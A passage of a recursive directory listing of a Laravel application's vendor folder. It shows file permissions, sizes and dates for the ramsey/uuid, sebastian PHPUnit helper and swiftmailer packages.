drwxr-xr-x 4 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Mar 26  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 Node
-rw-r--r-- 1 www-data www-data  869 Mar 26  2017 NodeProviderInterface.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 Time
-rw-r--r-- 1 www-data www-data  847 Mar 26  2017 TimeProviderInterface.php

/var/www/laravel/vendor/ramsey/uuid/src/Provider/Node:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 26  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Mar 26  2017 FallbackNodeProvider.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 26  2017 RandomNodeProvider.php
-rw-r--r-- 1 www-data www-data 2.1K Mar 26  2017 SystemNodeProvider.php

/var/www/laravel/vendor/ramsey/uuid/src/Provider/Time:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar 26  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 26  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Mar 26  2017 FixedTimeProvider.php
-rw-r--r-- 1 www-data www-data  923 Mar 26  2017 SystemTimeProvider.php

/var/www/laravel/vendor/sebastian:
total 48K
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 code-unit-reverse-lookup
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 comparator
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 diff
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 environment
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 exporter
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 global-state
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 object-enumerator
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 recursion-context
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 resource-operations
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 version

/var/www/laravel/vendor/sebastian/code-unit-reverse-lookup:
total 52K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   31 Mar  4  2017 .gitignore
-rw-r--r--  1 www-data www-data 1.9K Mar  4  2017 .php_cs
-rw-r--r--  1 www-data www-data  368 Mar  4  2017 .travis.yml
-rw-r--r--  1 www-data www-data  233 Mar  4  2017 ChangeLog.md
-rw-r--r--  1 www-data www-data 1.6K Mar  4  2017 LICENSE
-rw-r--r--  1 www-data www-data  503 Mar  4  2017 README.md
-rw-r--r--  1 www-data www-data  802 Mar  4  2017 build.xml
-rw-r--r--  1 www-data www-data  674 Mar  4  2017 composer.json
-rw-r--r--  1 www-data www-data  782 Mar  4  2017 phpunit.xml
drwxr-xr-x  2 www-data www-data 4.0K Mar  4  2017 src
drwxr-xr-x  2 www-data www-data 4.0K Mar  4  2017 tests

/var/www/laravel/vendor/sebastian/code-unit-reverse-lookup/src:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.9K Mar  4  2017 Wizard.php

/var/www/laravel/vendor/sebastian/code-unit-reverse-lookup/tests:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  956 Mar  4  2017 WizardTest.php

/var/www/laravel/vendor/sebastian/comparator:
total 48K
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   74 Jan 29  2017 .gitignore
-rw-r--r--  1 www-data www-data  406 Jan 29  2017 .travis.yml
-rw-r--r--  1 www-data www-data 1.6K Jan 29  2017 LICENSE
-rw-r--r--  1 www-data www-data 1.2K Jan 29  2017 README.md
drwxr-xr-x  2 www-data www-data 4.0K Jan 29  2017 build
-rw-r--r--  1 www-data www-data 1014 Jan 29  2017 build.xml
-rw-r--r--  1 www-data www-data 1.1K Jan 29  2017 composer.json
-rw-r--r--  1 www-data www-data  619 Jan 29  2017 phpunit.xml.dist
drwxr-xr-x  2 www-data www-data 4.0K Jan 29  2017 src
drwxr-xr-x  3 www-data www-data 4.0K Jan 29  2017 tests

/var/www/laravel/vendor/sebastian/comparator/build:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jan 29  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  397 Jan 29  2017 travis-ci.xml

/var/www/laravel/vendor/sebastian/comparator/src:
total 72K
drwxr-xr-x 2 www-data www-data 4.0K Jan 29  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 4.1K Jan 29  2017 ArrayComparator.php
-rw-r--r-- 1 www-data www-data 1.7K Jan 29  2017 Comparator.php
-rw-r--r-- 1 www-data www-data 2.9K Jan 29  2017 ComparisonFailure.php
-rw-r--r-- 1 www-data www-data 3.1K Jan 29  2017 DOMNodeComparator.php
-rw-r--r-- 1 www-data www-data 2.6K Jan 29  2017 DateTimeComparator.php
-rw-r--r-- 1 www-data www-data 1.7K Jan 29  2017 DoubleComparator.php
-rw-r--r-- 1 www-data www-data 1.3K Jan 29  2017 ExceptionComparator.php
-rw-r--r-- 1 www-data www-data 2.9K Jan 29  2017 Factory.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 29  2017 MockObjectComparator.php
-rw-r--r-- 1 www-data www-data 2.2K Jan 29  2017 NumericComparator.php
-rw-r--r-- 1 www-data www-data 3.6K Jan 29  2017 ObjectComparator.php
-rw-r--r-- 1 www-data www-data 1.6K Jan 29  2017 ResourceComparator.php
-rw-r--r-- 1 www-data www-data 3.2K Jan 29  2017 ScalarComparator.php
-rw-r--r-- 1 www-data www-data 2.3K Jan 29  2017 SplObjectStorageComparator.php
-rw-r--r-- 1 www-data www-data 1.8K Jan 29  2017 TypeComparator.php

/var/www/laravel/vendor/sebastian/comparator/tests:
total 96K
drwxr-xr-x 3 www-data www-data 4.0K Jan 29  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.7K Jan 29  2017 ArrayComparatorTest.php
-rw-r--r-- 1 www-data www-data 4.1K Jan 29  2017 DOMNodeComparatorTest.php
-rw-r--r-- 1 www-data www-data 6.7K Jan 29  2017 DateTimeComparatorTest.php
-rw-r--r-- 1 www-data www-data 3.2K Jan 29  2017 DoubleComparatorTest.php
-rw-r--r-- 1 www-data www-data 3.6K Jan 29  2017 ExceptionComparatorTest.php
-rw-r--r-- 1 www-data www-data 5.2K Jan 29  2017 FactoryTest.php
-rw-r--r-- 1 www-data www-data 5.4K Jan 29  2017 MockObjectComparatorTest.php
-rw-r--r-- 1 www-data www-data 2.9K Jan 29  2017 NumericComparatorTest.php
-rw-r--r-- 1 www-data www-data 4.1K Jan 29  2017 ObjectComparatorTest.php
-rw-r--r-- 1 www-data www-data 2.8K Jan 29  2017 ResourceComparatorTest.php
-rw-r--r-- 1 www-data www-data 4.7K Jan 29  2017 ScalarComparatorTest.php
-rw-r--r-- 1 www-data www-data 3.3K Jan 29  2017 SplObjectStorageComparatorTest.php
-rw-r--r-- 1 www-data www-data 2.5K Jan 29  2017 TypeComparatorTest.php
drwxr-xr-x 2 www-data www-data 4.0K Jan 29  2017 _files
-rw-r--r-- 1 www-data www-data 2.4K Jan 29  2017 autoload.php
-rw-r--r-- 1 www-data www-data  150 Jan 29  2017 bootstrap.php

/var/www/laravel/vendor/sebastian/comparator/tests/_files:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Jan 29  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jan 29  2017 ..
-rw-r--r-- 1 www-data www-data  529 Jan 29  2017 Author.php
-rw-r--r-- 1 www-data www-data  416 Jan 29  2017 Book.php
-rw-r--r-- 1 www-data www-data  398 Jan 29  2017 ClassWithToString.php
-rw-r--r-- 1 www-data www-data  514 Jan 29  2017 SampleClass.php
-rw-r--r-- 1 www-data www-data  421 Jan 29  2017 Struct.php
-rw-r--r-- 1 www-data www-data  305 Jan 29  2017 TestClass.php
-rw-r--r-- 1 www-data www-data  340 Jan 29  2017 TestClassComparator.php

/var/www/laravel/vendor/sebastian/diff:
total 52K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  137 Dec  8  2015 .gitignore
-rw-r--r--  1 www-data www-data 1.9K Dec  8  2015 .php_cs
-rw-r--r--  1 www-data www-data  213 Dec  8  2015 .travis.yml
-rw-r--r--  1 www-data www-data 1.6K Dec  8  2015 LICENSE
-rw-r--r--  1 www-data www-data 5.4K Dec  8  2015 README.md
-rw-r--r--  1 www-data www-data  805 Dec  8  2015 build.xml
-rw-r--r--  1 www-data www-data  707 Dec  8  2015 composer.json
-rw-r--r--  1 www-data www-data  531 Dec  8  2015 phpunit.xml.dist
drwxr-xr-x  3 www-data www-data 4.0K Dec  8  2015 src
drwxr-xr-x  4 www-data www-data 4.0K Dec  8  2015 tests

/var/www/laravel/vendor/sebastian/diff/src:
total 36K
drwxr-xr-x 3 www-data www-data 4.0K Dec  8  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.8K Dec  8  2015 Chunk.php
-rw-r--r-- 1 www-data www-data 1.2K Dec  8  2015 Diff.php
-rw-r--r-- 1 www-data www-data 7.0K Dec  8  2015 Differ.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2015 LCS
-rw-r--r-- 1 www-data www-data  927 Dec  8  2015 Line.php
-rw-r--r-- 1 www-data www-data 2.8K Dec  8  2015 Parser.php

/var/www/laravel/vendor/sebastian/diff/src/LCS:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Dec  8  2015 ..
-rw-r--r-- 1 www-data www-data  620 Dec  8  2015 LongestCommonSubsequence.php
-rw-r--r-- 1 www-data www-data 2.5K Dec  8  2015 MemoryEfficientLongestCommonSubsequenceImplementation.php
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2015 TimeEfficientLongestCommonSubsequenceImplementation.php

/var/www/laravel/vendor/sebastian/diff/tests:
total 32K
drwxr-xr-x 4 www-data www-data 4.0K Dec  8  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  12K Dec  8  2015 DifferTest.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2015 LCS
-rw-r--r-- 1 www-data www-data 1.6K Dec  8  2015 ParserTest.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2015 fixtures

/var/www/laravel/vendor/sebastian/diff/tests/LCS:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Dec  8  2015 ..
-rw-r--r-- 1 www-data www-data 5.4K Dec  8  2015 TimeEfficientImplementationTest.php

/var/www/laravel/vendor/sebastian/diff/tests/fixtures:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Dec  8  2015 ..
-rw-r--r-- 1 www-data www-data  200 Dec  8  2015 patch.txt
-rw-r--r-- 1 www-data www-data  410 Dec  8  2015 patch2.txt

/var/www/laravel/vendor/sebastian/environment:
total 44K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   45 Nov 26  2016 .gitignore
-rw-r--r--  1 www-data www-data  200 Nov 26  2016 .travis.yml
-rw-r--r--  1 www-data www-data 1.6K Nov 26  2016 LICENSE
-rw-r--r--  1 www-data www-data 2.1K Nov 26  2016 README.md
-rw-r--r--  1 www-data www-data  812 Nov 26  2016 build.xml
-rw-r--r--  1 www-data www-data  713 Nov 26  2016 composer.json
-rw-r--r--  1 www-data www-data  742 Nov 26  2016 phpunit.xml
drwxr-xr-x  2 www-data www-data 4.0K Nov 26  2016 src
drwxr-xr-x  2 www-data www-data 4.0K Nov 26  2016 tests

/var/www/laravel/vendor/sebastian/environment/src:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Nov 26  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.0K Nov 26  2016 Console.php
-rw-r--r-- 1 www-data www-data 4.7K Nov 26  2016 Runtime.php

/var/www/laravel/vendor/sebastian/environment/tests:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Nov 26  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.7K Nov 26  2016 ConsoleTest.php
-rw-r--r-- 1 www-data www-data 3.4K Nov 26  2016 RuntimeTest.php

/var/www/laravel/vendor/sebastian/exporter:
total 44K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  113 Nov 19  2016 .gitignore
-rw-r--r--  1 www-data www-data  350 Nov 19  2016 .travis.yml
-rw-r--r--  1 www-data www-data 1.6K Nov 19  2016 LICENSE
-rw-r--r--  1 www-data www-data 2.9K Nov 19  2016 README.md
-rw-r--r--  1 www-data www-data  810 Nov 19  2016 build.xml
-rw-r--r--  1 www-data www-data 1.2K Nov 19  2016 composer.json
-rw-r--r--  1 www-data www-data  654 Nov 19  2016 phpunit.xml.dist
drwxr-xr-x  2 www-data www-data 4.0K Nov 19  2016 src
drwxr-xr-x  2 www-data www-data 4.0K Nov 19  2016 tests

/var/www/laravel/vendor/sebastian/exporter/src:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Nov 19  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 8.9K Nov 19  2016 Exporter.php

/var/www/laravel/vendor/sebastian/exporter/tests:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Nov 19  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 8.2K Nov 19  2016 ExporterTest.php

/var/www/laravel/vendor/sebastian/global-state:
total 44K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   71 Oct 12  2015 .gitignore
-rw-r--r--  1 www-data www-data  246 Oct 12  2015 .travis.yml
-rw-r--r--  1 www-data www-data 1.6K Oct 12  2015 LICENSE
-rw-r--r--  1 www-data www-data  615 Oct 12  2015 README.md
-rw-r--r--  1 www-data www-data 1.1K Oct 12  2015 build.xml
-rw-r--r--  1 www-data www-data  779 Oct 12  2015 composer.json
-rw-r--r--  1 www-data www-data  658 Oct 12  2015 phpunit.xml.dist
drwxr-xr-x  2 www-data www-data 4.0K Oct 12  2015 src
drwxr-xr-x  3 www-data www-data 4.0K Oct 12  2015 tests

/var/www/laravel/vendor/sebastian/global-state/src:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Oct 12  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.1K Oct 12  2015 Blacklist.php
-rw-r--r-- 1 www-data www-data 2.2K Oct 12  2015 CodeExporter.php
-rw-r--r-- 1 www-data www-data  319 Oct 12  2015 Exception.php
-rw-r--r-- 1 www-data www-data 4.5K Oct 12  2015 Restorer.php
-rw-r--r-- 1 www-data www-data  369 Oct 12  2015 RuntimeException.php
-rw-r--r-- 1 www-data www-data 9.5K Oct 12  2015 Snapshot.php

/var/www/laravel/vendor/sebastian/global-state/tests:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Oct 12  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.3K Oct 12  2015 BlacklistTest.php
-rw-r--r-- 1 www-data www-data 4.1K Oct 12  2015 SnapshotTest.php
drwxr-xr-x 2 www-data www-data 4.0K Oct 12  2015 _fixture

/var/www/laravel/vendor/sebastian/global-state/tests/_fixture:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Oct 12  2015 .
drwxr-xr-x 3 www-data www-data 4.0K Oct 12  2015 ..
-rw-r--r-- 1 www-data www-data  364 Oct 12  2015 BlacklistedChildClass.php
-rw-r--r-- 1 www-data www-data  365 Oct 12  2015 BlacklistedClass.php
-rw-r--r-- 1 www-data www-data  403 Oct 12  2015 BlacklistedImplementor.php
-rw-r--r-- 1 www-data www-data  342 Oct 12  2015 BlacklistedInterface.php
-rw-r--r-- 1 www-data www-data  946 Oct 12  2015 SnapshotClass.php
-rw-r--r-- 1 www-data www-data  375 Oct 12  2015 SnapshotDomDocument.php
-rw-r--r-- 1 www-data www-data  331 Oct 12  2015 SnapshotFunctions.php
-rw-r--r-- 1 www-data www-data  331 Oct 12  2015 SnapshotTrait.php

/var/www/laravel/vendor/sebastian/object-enumerator:
total 52K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  101 Feb 18  2017 .gitignore
-rw-r--r--  1 www-data www-data 1.9K Feb 18  2017 .php_cs
-rw-r--r--  1 www-data www-data  337 Feb 18  2017 .travis.yml
-rw-r--r--  1 www-data www-data  681 Feb 18  2017 ChangeLog.md
-rw-r--r--  1 www-data www-data 1.6K Feb 18  2017 LICENSE
-rw-r--r--  1 www-data www-data  503 Feb 18  2017 README.md
-rw-r--r--  1 www-data www-data  859 Feb 18  2017 build.xml
-rw-r--r--  1 www-data www-data  793 Feb 18  2017 composer.json
-rw-r--r--  1 www-data www-data  742 Feb 18  2017 phpunit.xml
drwxr-xr-x  2 www-data www-data 4.0K Feb 18  2017 src
drwxr-xr-x  3 www-data www-data 4.0K Feb 18  2017 tests

/var/www/laravel/vendor/sebastian/object-enumerator/src:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 18  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Feb 18  2017 Enumerator.php
-rw-r--r-- 1 www-data www-data  310 Feb 18  2017 Exception.php
-rw-r--r-- 1 www-data www-data  376 Feb 18  2017 InvalidArgumentException.php

/var/www/laravel/vendor/sebastian/object-enumerator/tests:
total 16K
drwxr-xr-x 3 www-data www-data 4.0K Feb 18  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.3K Feb 18  2017 EnumeratorTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 18  2017 Fixtures

/var/www/laravel/vendor/sebastian/object-enumerator/tests/Fixtures:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Feb 18  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 18  2017 ..
-rw-r--r-- 1 www-data www-data  533 Feb 18  2017 ExceptionThrower.php

/var/www/laravel/vendor/sebastian/recursion-context:
total 44K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data  113 Nov 19  2016 .gitignore
-rw-r--r--  1 www-data www-data  280 Nov 19  2016 .travis.yml
-rw-r--r--  1 www-data www-data 1.6K Nov 19  2016 LICENSE
-rw-r--r--  1 www-data www-data  425 Nov 19  2016 README.md
-rw-r--r--  1 www-data www-data  819 Nov 19  2016 build.xml
-rw-r--r--  1 www-data www-data  844 Nov 19  2016 composer.json
-rw-r--r--  1 www-data www-data  661 Nov 19  2016 phpunit.xml.dist
drwxr-xr-x  2 www-data www-data 4.0K Nov 19  2016 src
drwxr-xr-x  2 www-data www-data 4.0K Nov 19  2016 tests

/var/www/laravel/vendor/sebastian/recursion-context/src:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Nov 19  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.9K Nov 19  2016 Context.php
-rw-r--r-- 1 www-data www-data  330 Nov 19  2016 Exception.php
-rw-r--r-- 1 www-data www-data  402 Nov 19  2016 InvalidArgumentException.php

/var/www/laravel/vendor/sebastian/recursion-context/tests:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Nov 19  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 4.1K Nov 19  2016 ContextTest.php

/var/www/laravel/vendor/sebastian/resource-operations:
total 36K
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   27 Jul 28  2015 .gitignore
-rw-r--r--  1 www-data www-data 1.6K Jul 28  2015 LICENSE
-rw-r--r--  1 www-data www-data  474 Jul 28  2015 README.md
drwxr-xr-x  2 www-data www-data 4.0K Jul 28  2015 build
-rw-r--r--  1 www-data www-data  763 Jul 28  2015 build.xml
-rw-r--r--  1 www-data www-data  601 Jul 28  2015 composer.json
drwxr-xr-x  2 www-data www-data 4.0K Jul 28  2015 src

/var/www/laravel/vendor/sebastian/resource-operations/build:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jul 28  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rwxr-xr-x 1 www-data www-data 1.3K Jul 28  2015 generate.php

/var/www/laravel/vendor/sebastian/resource-operations/src:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Jul 28  2015 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  22K Jul 28  2015 ResourceOperations.php

/var/www/laravel/vendor/sebastian/version:
total 36K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   15 Oct  3  2016 .gitattributes
-rw-r--r--  1 www-data www-data    7 Oct  3  2016 .gitignore
-rw-r--r--  1 www-data www-data 1.9K Oct  3  2016 .php_cs
-rw-r--r--  1 www-data www-data 1.6K Oct  3  2016 LICENSE
-rw-r--r--  1 www-data www-data 2.0K Oct  3  2016 README.md
-rw-r--r--  1 www-data www-data  705 Oct  3  2016 composer.json
drwxr-xr-x  2 www-data www-data 4.0K Oct  3  2016 src

/var/www/laravel/vendor/sebastian/version/src:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Oct  3  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 2.2K Oct  3  2016 Version.php

/var/www/laravel/vendor/swiftmailer:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 swiftmailer

/var/www/laravel/vendor/swiftmailer/swiftmailer:
total 68K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  157 Feb 13  2017 .gitattributes
-rw-r--r-- 1 www-data www-data  120 Feb 13  2017 .gitignore
-rw-r--r-- 1 www-data www-data  484 Feb 13  2017 .php_cs.dist
-rw-r--r-- 1 www-data www-data  589 Feb 13  2017 .travis.yml
-rw-r--r-- 1 www-data www-data 8.1K Feb 13  2017 CHANGES
-rw-r--r-- 1 www-data www-data 1.1K Feb 13  2017 LICENSE
-rw-r--r-- 1 www-data www-data  518 Feb 13  2017 README
-rw-r--r-- 1 www-data www-data   12 Feb 13  2017 VERSION
-rw-r--r-- 1 www-data www-data  829 Feb 13  2017 composer.json
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 doc
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 lib
-rw-r--r-- 1 www-data www-data 1.3K Feb 13  2017 phpunit.xml.dist
drwxr-xr-x 8 www-data www-data 4.0K Feb 13  2017 tests

/var/www/laravel/vendor/swiftmailer/swiftmailer/doc:
total 156K
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  22K Feb 13  2017 headers.rst
-rw-r--r-- 1 www-data www-data 1.7K Feb 13  2017 help-resources.rst
-rw-r--r-- 1 www-data www-data 1.6K Feb 13  2017 including-the-files.rst
-rw-r--r-- 1 www-data www-data  206 Feb 13  2017 index.rst
-rw-r--r-- 1 www-data www-data 2.6K Feb 13  2017 installing.rst
-rw-r--r-- 1 www-data www-data 5.5K Feb 13  2017 introduction.rst
-rw-r--r-- 1 www-data www-data  676 Feb 13  2017 japanese.rst
-rw-r--r-- 1 www-data www-data  42K Feb 13  2017 messages.rst
-rw-r--r-- 1 www-data www-data 8.8K Feb 13  2017 overview.rst
-rw-r--r-- 1 www-data www-data  14K Feb 13  2017 plugins.rst
-rw-r--r-- 1 www-data www-data  20K Feb 13  2017 sending.rst
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 uml

/var/www/laravel/vendor/swiftmailer/swiftmailer/doc/uml:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r-- 1 www-data www-data 3.5K Feb 13  2017 Encoders.graffle
-rw-r--r-- 1 www-data www-data 5.5K Feb 13  2017 Mime.graffle
-rw-r--r-- 1 www-data www-data 3.0K Feb 13  2017 Transports.graffle

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib:
total 84K
drwxr-xr-x 4 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Feb 13  2017 classes
drwxr-xr-x 2 www-data www-data 4.0K Feb 13  2017 dependency_maps
-rw-r--r-- 1 www-data www-data  41K Feb 13  2017 mime_types.php
-rw-r--r-- 1 www-data www-data 1.1K Feb 13  2017 preferences.php
-rw-r--r-- 1 www-data www-data  675 Feb 13  2017 swift_init.php
-rw-r--r-- 1 www-data www-data  677 Feb 13  2017 swift_required.php
-rw-r--r-- 1 www-data www-data  669 Feb 13  2017 swift_required_pear.php
-rwxr-xr-x 1 www-data www-data 7.6K Feb 13  2017 swiftmailer_generate_mimes_config.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes:
total 16K
drwxr-xr-x  3 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x  4 www-data www-data 4.0K Feb 13  2017 ..
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 Swift
-rw-r--r--  1 www-data www-data 2.1K Feb 13  2017 Swift.php

/var/www/laravel/vendor/swiftmailer/swiftmailer/lib/classes/Swift:
total 236K
drwxr-xr-x 15 www-data www-data 4.0K Feb 13  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Feb 13  2017 ..
-rw-r--r--  1 www-data www-data 2.0K Feb 13  2017 Attachment.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 ByteStream
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 CharacterReader
-rw-r--r--  1 www-data www-data 1.7K Feb 13  2017 CharacterReader.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 CharacterReaderFactory
-rw-r--r--  1 www-data www-data  542 Feb 13  2017 CharacterReaderFactory.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 CharacterStream
-rw-r--r--  1 www-data www-data 2.2K Feb 13  2017 CharacterStream.php
-rw-r--r--  1 www-data www-data 1.4K Feb 13  2017 ConfigurableSpool.php
-rw-r--r--  1 www-data www-data 9.6K Feb 13  2017 DependencyContainer.php
-rw-r--r--  1 www-data www-data  588 Feb 13  2017 DependencyException.php
-rw-r--r--  1 www-data www-data 1.9K Feb 13  2017 EmbeddedFile.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Encoder
-rw-r--r--  1 www-data www-data  734 Feb 13  2017 Encoder.php
-rw-r--r--  1 www-data www-data 1.4K Feb 13  2017 Encoding.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 Events
-rw-r--r--  1 www-data www-data 1.2K Feb 13  2017 FailoverTransport.php
-rw-r--r--  1 www-data www-data 5.5K Feb 13  2017 FileSpool.php
-rw-r--r--  1 www-data www-data  488 Feb 13  2017 FileStream.php
-rw-r--r--  1 www-data www-data  679 Feb 13  2017 Filterable.php
-rw-r--r--  1 www-data www-data 1.5K Feb 13  2017 Image.php
-rw-r--r--  1 www-data www-data 2.0K Feb 13  2017 InputByteStream.php
-rw-r--r--  1 www-data www-data  645 Feb 13  2017 IoException.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 13  2017 KeyCache
-rw-r--r--  1 www-data www-data 2.9K Feb 13  2017 KeyCache.php
